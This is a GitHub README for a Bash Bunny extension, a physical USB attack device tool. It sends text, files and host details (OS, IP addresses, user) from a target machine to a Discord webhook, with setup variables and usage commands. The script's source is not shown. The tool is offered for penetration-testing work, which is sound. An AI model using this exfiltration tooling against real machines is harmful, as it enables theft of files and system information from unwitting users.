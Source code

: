 <div align="center">

# Discord Exfiltration

![Bash](https://img.shields.io/badge/Shell_Script-121011?style=for-the-badge&logo=gnu-bash&logoColor=white)
![Quack](https://img.shields.io/badge/Ducky_Script-121011?style=for-the-badge&logo=duck&logoColor=white)

A discord exfiltration extension

[Documentation](#documentation) • [Changelog](#changelog) • [Contributing](#contributing) • [License](#license)  . [Support](#support)


**This bashbunny extension provide exfiltration of text and files through discord webhook**
</div>

<img width="1000" alt="demoGif" src="https://raw.githubusercontent.com/quentinlamamy/bashbunny/main/img/discordExfiltration.gif"/>

# Documentation

>To use this extension, you need to create a webhook on discord and get the webhook id and token
During your setup steps, you need to set the DISCORD_WEBHOOK_ID and DISCORD_WEBHOOK_TOKEN variables

```bash
DISCORD_WEBHOOK_ID="<DISCORD_WEBHOOK_ID>"
DISCORD_WEBHOOK_TOKEN="<DISCORD_WEBHOOK_TOKEN>"
```

### DISCORD INIT

Initialize the exfiltration session by posting an embed message on discord with host information
This command need ```$BB_HOST_OS, $BB_HOST_IP_V4, $BB_HOST_IP_V6, BB_HOST_IP_USER``` variables to be set (Set by default if you use my OSX extension)

## DISCORD SEND MSG

Send a message to discord via webhook

```bash
DISCORD SEND MSG $yourMessage
```

## DISCORD SEND FILE

Send a file to discord via webhook
```bash
DISCORD SEND FILE $yourFilePath
```

# Changelog
v1.0 : 
* :tada: Release on 2023/07/31

# Contributing
A bug ? An idea of feature ? [Fill an issue on github](https://github.com/quentinlamamy/bashbunny/issues)

# License
<p xmlns:cc="http://creativecommons.org/ns#" xmlns:dct="http://purl.org/dc/terms/"><a property="dct:title" rel="cc:attributionURL" href="https://github.com/quentinlamamy/bashbunny/blob/main/extensions/discord/discord.sh">Bashbunny discord extension</a> by <a rel="cc:attributionURL dct:creator" property="cc:attributionName" href="https://github.com/quentinlamamy">Quentin Lamamy</a> is licensed under <a href="http://creativecommons.org/licenses/by-nc-sa/4.0/?ref=chooser-v1" target="_blank" rel="license noopener noreferrer" style="display:inline-block;">CC BY-NC-SA 4.0<img style="height:22px!important;margin-left:3px;vertical-align:text-bottom;" src="https://mirrors.creativecommons.org/presskit/icons/cc.svg?ref=chooser-v1"><img style="height:22px!important;margin-left:3px;vertical-align:text-bottom;" src="https://mirrors.creativecommons.org/presskit/icons/by.svg?ref=chooser-v1"><img style="height:22px!important;margin-left:3px;vertical-align:text-bottom;" src="https://mirrors.creativecommons.org/presskit/icons/nc.svg?ref=chooser-v1"><img style="height:22px!important;margin-left:3px;vertical-align:text-bottom;" src="https://mirrors.creativecommons.org/presskit/icons/sa.svg?ref=chooser-v1"></a></p>

# Support
<a href="https://www.buymeacoffee.com/quentinlamamy" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/default-orange.png" alt="Buy Me A Coffee" height="41" width="174"></a>
